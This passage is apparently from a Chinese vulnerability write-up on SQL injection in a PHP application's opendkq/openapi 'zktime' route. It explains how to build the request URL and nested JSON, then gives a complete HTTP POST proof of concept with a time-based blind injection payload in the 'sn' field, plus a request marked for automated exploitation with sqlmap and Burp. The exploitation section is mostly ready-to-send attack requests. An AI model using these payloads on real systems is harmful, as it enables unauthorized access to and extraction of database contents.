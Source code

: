   
按照路由构造请求url  
  
  
/index.php?m=opendkq|openapi&d=task&a=zktime  
  
  
按照sn的取值 构造两层json  
  
  
{"cn":{"sn":"123"}}  
  
  
host 为127.0.0.1  
  
### 漏洞利用  
  
#### poc  
```
POST /index.php?m=opendkq|openapi&d=task&a=zktime HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=p4idg1a6f9b059t7laum6m333o; deviceid=1733809734848
Connection: close
Content-Length: 34
Content-Type: application/x-www-form-urlencoded

{"cn":{"sn":"123' and sleep(3)#"}}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP0ic1VCAkibxxasAHd4Lb7OU7ccpCgvYAUnx1u6S71RTicnPhD15atu5uScqF9qj754dYRDLGqlvRoA/640?wx_fmt=png&from=appmsg "")  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP0ic1VCAkibxxasAHd4Lb7OUTicZGjKxRLnL2iaVQqpgHkyoTmwFVmia847myKD2qMgvqw9f4CiceZWmTQ/640?wx_fmt=png&from=appmsg "")  
####   
#### sqlmap  
  
  
sqlmap  结合burp  修改host  
```
POST /index.php?m=opendkq|openapi&d=task&a=zktime HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=p4idg1a6f9b059t7laum6m333o; deviceid=1733809734848
Connection: close
Content-Length: 34
Content-Type: application/x-www-form-urlencoded

{"cn":{"sn":"123'*"}}
```  
  